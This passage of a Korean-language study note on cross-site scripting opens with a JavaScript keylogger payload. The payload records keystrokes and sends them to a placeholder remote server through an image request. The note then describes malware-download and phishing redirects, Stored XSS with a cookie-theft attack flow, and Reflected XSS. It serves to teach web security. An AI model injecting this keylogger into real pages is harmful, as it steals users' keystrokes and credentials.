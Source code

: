 ```js
var keys = "";
var hackUrl = "원격지 서버?value=";
document.onkeypress = function(e) { 
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode; 
	key = String.fromCharCode(key); 
	keys+=key; 
} 
window.setInterval(function(){ 
	if(keys != '') { 
		new Image().src = hackUrl + keys;
		keys = ''; 
	} 
}, 200);
```

### 악성코드 다운로드
- 사용자가 악성 스크립트가 있는 URL을 클릭하도록 유도하여 악성 프로그램 다운로드 받는 사이트로 리타이렉한다.
- 사용자가 악성 프로그램을 다운로드 하도록 유도한다.

### 피싱 사이트 강제 이동
- 가짜 사이트로 위장하여 사용자의 로그인 정보를 탈취한다.
- 실제 사이트와 유사한 웹 페이지를 통해 사용자의 개인정보를 훔쳐올 수 있다.


## 공격 유형

### Stored ( 또는 Persistent ) XSS
- 공격자가 악성 스크립트를 취약한 웹 서버에 저장하는 공격이다.
- 광역적으로 공격이 가능하다. 하지만 흔적이 웹 서버에 남는다.
- 지속적으로 피해를 입히는 공격이다.
- 공격자가 악성 스크립트를 웹 서버 페이지에 저장하고 해당 페이지가 사용자에게 노출시켜 악성 스크립트가 사용자 브라우저에서 자동으로 실행되게 된다.

#### 취약점 유형
- 댓글
- 게시판
- 이메일
- 블로그 글
- 채팅방의 유저 이름

#### 공격 과정
1. 공격자가 Stored XSS 취약점을 가지는 웹 페이지( 게시판 )를 찾는다.
2. 공격자가 게시판에 사용자의 민감한 정보( 쿠키 )를 탈취하기 위한 악성 스크립트 코드를 포함한  글을 작성하고 저장한다.
3. 공격자가 작성한 글에 사용자가 들어가면 민감한 정보(쿠키)를 공격자에게 전송한다.

<img class="mermaid" src="https://mermaid.ink/svg/eyJjb2RlIjoic2VxdWVuY2VEaWFncmFtXG7qs7XqsqnsnpAgLT4-IOqzteqyqeyekCA6IOy3qOyVve2VnCDsm7kg7Y6Y7J207KeAIOywvuq4sFxu6rO16rKp7J6QIC0-PiDqs7XqsqnsnpAgOiDqsozsi5zquIAg7J6R7ISxXG7qs7XqsqnsnpAgLT4-IOybuSDshJzrsoQgOiDqsozsi5zquIAg7KCA7J6lXG7sgqzsmqnsnpAgLT4-IOybuSDshJzrsoQgOiDqsozsi5zquIAg66qp66GdIOyalOyyrVxu7Ju5IOyEnOuyhCAtPj4g7IKs7Jqp7J6QIDog6rKM7Iuc6riAIOuqqeuhnSDsnZHri7VcbuyCrOyaqeyekCAtPj4g7IKs7Jqp7J6QIDog6rO16rKp7J6QIOqyjOyLnOq4gCDtgbTrpq1cbuyCrOyaqeyekCAtPj4g6rO16rKp7J6QIDog66-86rCQ7ZWcIOygleuztCDsoITri6wiLCJtZXJtYWlkIjpudWxsfQ">



### Reflected XSS
- Get 방식을 통해 공격이 이루어 진다.
- 사용자 입력을 그대로 페이지에 보여주는 곳에서 발생한다.
- 공격자는 URL에 악성 스크립트를 심고, 만들어진 URL을 사용자에게 전달한다. 이러면 사용자 브라우저에서 악성 스크립트가 실행된다.
- SSR ( Server Side Rendering ). 서버에서 페이지를 완성하여 사용자에게 보내주는 페이지에서 발생하는 취약점이다.
